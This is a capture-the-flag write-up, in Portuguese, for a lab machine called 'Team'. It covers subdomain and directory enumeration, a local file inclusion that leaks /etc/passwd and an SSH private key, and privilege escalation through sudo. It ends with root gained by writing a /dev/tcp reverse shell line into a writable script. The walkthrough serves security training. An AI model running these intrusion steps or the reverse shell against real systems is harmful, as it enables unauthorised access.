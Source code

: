 # _**Team CTF**_
![](Team.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos alguns serviços como SSH, FTP e uma página web  
Vamos visitar a página web primeiro, já que não temos login anonimo via FTP  
A página _default_ do Apache2  
Vamos tentar um _brute force_ de diretórios com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Parece que nosso scan não retornou algo de útil  
Vamos continuar  
Um outro scan com ```/Web-Servers/Apache.txt``` também não houve retornos úteis  
Investigando o código da página, encontramos a seguinte mensagem:  

![](thm_team.jpg)

Vamos adicionar o que se pede para _/etc/hosts_  
Após adicionar, acessamos _http://team.thm_ e temos uma página web  
Vamos novamente realizar um scan com <mark>Gobuster</mark>  

![](new_scan_gobuster.jpg)

Temos diferentes resultados agora!  
Vamos começar a investigar estes novos diretórios  
Em _robots.txt_, temos um nome; **dale**   
Uma tentativa de _brute force_ no serviço SSH com <mark>Hydra</mark> e _rockyou.txt_ foi feito, mas nenhum sucesso  
Alguns dos diretórios descobertos estão inacessíveis  
Poderiamos investigar as imagens contidas neste website, mas parece que não levará a nada  

Nossa alternativa é tentar enumerar subdomínios dentro deste domínio  
Para isso, vamos utilizar a ferramenta <mark>ffuf</mark>
> ```bash
> ffuf -w ../seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://[ip_address]:80 -H "Host: FUZZ.team.thm" -fs 0
> ```
![](ffuf_result.jpg)

Após a execução, _dev_ chamou a atenção  
Vamos adicionar no nosso arquivo junto de _team.thm_  
Acessando _dev.team.thm_, temos o resultado  

![](dev_team.jpg)

Clicando no link parece nos levar para uma página que inclui o arquivo _teamshare.php_  

![](team_share.jpg)

Seguindo a dica dada para a primeira flag, vamos digitar na barra de endereço, após _script.php?page=_, /etc/hosts e verificar o retorno  

![](etc_return.jpg)

Temos retorno!  
Podemos tentar outros diretórios como: <mark>/etc/passwd</mark>  
Após, verificamos os nomes de usuário, e temos **dale**  
Por padrão, temos que o conteúdo de _user.txt_ está localizado em um diretório _/home/[username]/user.txt_  
Tentando para **dale**, temos retorno da primeira flag!  

![](user_flag.jpg)

## _**Ganhando acesso**_
Parece que podemos acessar diferentes diretórios  
Vamos tentar enumerar com a ferramenta <mark>ffuf</mark>
> ```bash
> ffuf -w ../seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u 'http://dev.team.thm/script.php?page=FUZZ' -mc 200
> ```
![](important_file.jpg)

Este arquivo parece ser o de configuração do serviço SSH  
Vamos tentar acessar pelo site  
Além das configurações, temos uma chave SSH para login contida no arquivo  
Vamos copiar ela para nossa máquina e dar as permissões necessárias e tentar realizar login nos dois usuários que encontramos  

![](ssh_login.jpg)

Executando o comando ```sudo -l```, verificamos o arquivo encontrado é executado sem a necessidade de senha  
Além disso, podemos digitar ```bash``` para ganhar privilégios de **gyle**  

![](priv_gyle.jpg)

Após algum tempo enumerando o usuário, o comando abaixo parece ter nos revelado um arquivo interessante
> ```bash
> find / -writable -type f -name "*.sh" 2>/dev/null
> ```
Este arquivo possui permissões de ```admin```, dos quais **gyle** também tem  
Vamos tentar editar este arquivo com ```nano```
Podemos incluir o seguinte trecho: <mark>bash -i >& /dev/tcp/[ip_address]/[port] 0>&1</mark>  
Fazendo as alterações necessárias, vamos usar ```nc``` para obter um shell  
Após aguardar um tempo, temos _root_  

![](root.jpg)

Basta realizar um ```cat``` em _/root/root.txt_ e temos nossa flag!

